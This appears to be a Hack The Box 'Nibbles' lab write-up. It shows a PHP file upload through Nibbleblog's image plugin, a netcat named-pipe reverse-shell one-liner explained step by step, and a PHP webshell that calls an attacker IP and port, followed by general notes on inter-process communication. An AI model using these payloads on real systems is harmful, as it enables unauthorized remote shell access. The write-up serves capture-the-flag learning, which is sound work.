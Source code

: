 #Nibbles - HTB Machine



In the Plugins page, it allows to upload image files. This is a potential vulnerability which can be abused to uplaod PHP files

php code: 
   `   <?php system('id'); ?>   `

_Save this code to a file and then click on the Browse button and upload it._

After upload, we get bunch of error and remember a directory under plugins which is under content 
> The full path is at http://<host>/nibbleblog/content/private/plugins/my_image/.

<img src="https://github.com/user-attachments/assets/3b0fe319-e8c9-49a3-acd3-5173f8c8b80d">

https://highon.coffee/blog/reverse-shell-cheat-sheet/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


> Breakdown of the command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f

The command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f` is a complex series of commands typically used in the context of creating a reverse shell. Here's a detailed breakdown of what each part does:

1. **`rm /tmp/f;`**: This removes the file named `f` in the `/tmp` directory, if it exists. This ensures that the following command to create a named pipe doesn't fail due to the file already existing.

2. **`mkfifo /tmp/f;`**: This creates a named pipe (FIFO) called `f` in the `/tmp` directory. A named pipe allows for communication between processes.

3. **`cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKING IP> <LISTENING PORT> > /tmp/f`**: This is the core part of the reverse shell setup.

   - **`cat /tmp/f`**: This reads from the named pipe `/tmp/f`. The output of this command will be used as input for the next command in the pipeline.

   - **`|`**: This pipe operator takes the output of the command on its left (in this case, `cat /tmp/f`) and uses it as input for the command on its right (`/bin/sh -i`).

   - **`/bin/sh -i`**: This starts an interactive shell. The `-i` flag stands for interactive, making the shell session interactive.

   - **`2>&1`**: This redirects standard error (file descriptor 2) to standard output (file descriptor 1). This ensures that both the output and error messages from the shell are sent through the same pipe.

   - **`| nc <ATTACKING IP> <LISTENING PORT>`**: This pipe operator takes the combined output (standard output and standard error) from the shell and pipes it to `nc`. The `nc` (netcat) command establishes a connection to the specified `<ATTACKING IP>` and `<LISTENING PORT>`. This sends the shell's output to the attacker's machine.

   - **`> /tmp/f`**: This redirects the input coming from the netcat connection back into the named pipe `/tmp/f`. This completes the communication loop, allowing the attacker to send commands to the shell via the netcat connection.

### Summary

- **Removal of Existing File**: `rm /tmp/f` ensures there is no existing file named `f` in `/tmp`.
- **Creation of Named Pipe**: `mkfifo /tmp/f` creates a special file that acts as a named pipe for inter-process communication.
- **Setup of Reverse Shell**: The combination of `cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKING IP> <LISTENING PORT> > /tmp/f` creates a reverse shell:
  - `cat /tmp/f` reads from the named pipe.
  - The interactive shell (`/bin/sh -i`) executes commands received via the pipe.
  - Both standard output and standard error of the shell are sent through netcat (`nc`) to the attacker's IP and port.
  - The commands sent by the attacker are redirected into the named pipe, completing the loop.

### Security Implications

This command sequence is used to establish a reverse shell, allowing an attacker to gain remote access to the target system's shell. It is a malicious action typically employed in unauthorized access and exploitation scenarios. Executing such commands without proper authorization is illegal and unethical. It's important to use and understand such commands only in controlled environments for educational or security testing purposes, with explicit permission.

> Named Pipe (FIFO): A named pipe, also known as a FIFO (First In, First Out), is a special type of file used for inter-process communication. Unlike regular pipes, which exist only during the lifetime of the process and are used for communication between processes that have a parent-child relationship, named pipes exist as special files within the file system. This means they can be used for communication between unrelated processes.
> Creation: You create a named pipe using the mkfifo command. For example, mkfifo /tmp/f creates a named pipe named f in the /tmp directory.
> Behavior: Data written to a named pipe by one process can be read by another process. The data flow through the pipe in the order it was written (first in, first out).

  >Inter-Process Communication (IPC) refers to a set of mechanisms that allow processes to communicate with each other and synchronize their actions. These mechanisms are essential for coordination between processes in a multitasking operating system, where multiple processes may need to exchange data, share resources, or signal each other about their status.
  
  ### Common IPC Mechanisms
  
  1. **Pipes**:
     - **Anonymous Pipes**: Used for communication between parent and child processes. Data written to one end of the pipe can be read from the other end.
     - **Named Pipes (FIFOs)**: Similar to anonymous pipes but have a presence in the file system. They allow communication between unrelated processes.
  
  2. **Message Queues**:
     - A message queue is a linked list of messages stored within the kernel and identified by a message queue identifier. Processes can send messages to the queue and receive messages from the queue.
  
  3. **Shared Memory**:
     - Allows multiple processes to access the same memory space. This is the fastest form of IPC because data does not need to be copied between the processes. It requires synchronization mechanisms (like semaphores) to manage concurrent access.
  
  4. **Semaphores**:
     - Used to control access to a common resource by multiple processes to avoid critical section problems. Semaphores are variables that are used as flags to signal the status of a resource.
  
  5. **Sockets**:
     - Primarily used for communication between processes over a network. They can also be used for communication between processes on the same machine. Sockets provide a robust way to handle network communication and can be either stream-oriented (TCP) or datagram-oriented (UDP).
  
  6. **Signals**:
     - A limited form of IPC used to notify a process that a particular event has occurred. Signals can be used to interrupt a process, inform it of an error, or communicate between processes in a limited way.
  
  7. **Files**:
     - Processes can communicate by reading and writing to a common file. This is a simple form of IPC but can be inefficient due to the need for disk I/O and lack of synchronization mechanisms.
  
  8. **Memory-Mapped Files**:
     - Allows files or devices to be mapped into memory. Processes can then read and write to the file as if it were part of the process’s memory space, providing a shared memory-like interface.
  
  ### Examples and Use Cases
  
  - **Pipes and Named Pipes**: Used for simple data transfer between processes. For example, a command pipeline in a Unix shell (`ls | grep pattern`) uses anonymous pipes.
    
  - **Message Queues**: Used in scenarios where processes need to send discrete messages to each other, such as job scheduling systems.
    
  - **Shared Memory**: Commonly used in high-performance computing applications where multiple processes need to access large datasets efficiently.
    
  - **Semaphores**: Used in operating systems and real-time applications to manage resource access, such as controlling access to a printer or a database.
    
  - **Sockets**: Used for network communication between distributed applications, such as web servers and clients.
  
  ### Advantages of IPC
  
  - **Efficiency**: Some IPC mechanisms, like shared memory, provide very efficient means of data exchange.
  - **Modularity**: Allows for building modular applications where different components can communicate with each other.
  - **Concurrency**: Facilitates concurrent execution of processes, which can lead to better utilization of system resources.
  
  ### Challenges of IPC
  
  - **Synchronization**: Managing synchronization to avoid race conditions and ensure data consistency can be complex.
  - **Deadlock**: Improper use of IPC mechanisms can lead to deadlocks where processes wait indefinitely for resources.
  - **Security**: Ensuring that IPC mechanisms are used securely to prevent unauthorized access or data leaks.
  
  Overall, IPC is a fundamental concept in operating systems and application development that enables processes to work together in a coordinated manner.
------------------------------------------------------------------------------------------------------

`See the edited PHP script below.
Code: php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
 `

 Another way to include command is in the URL rather than to create a seperate reverse php file

![Alt rev shell](https://github.com/user-attachments/assets/b8d5e3e0-6a0f-4a8f-8d13-517ddfdef9f6 "Alternate way to create command reverse shell")

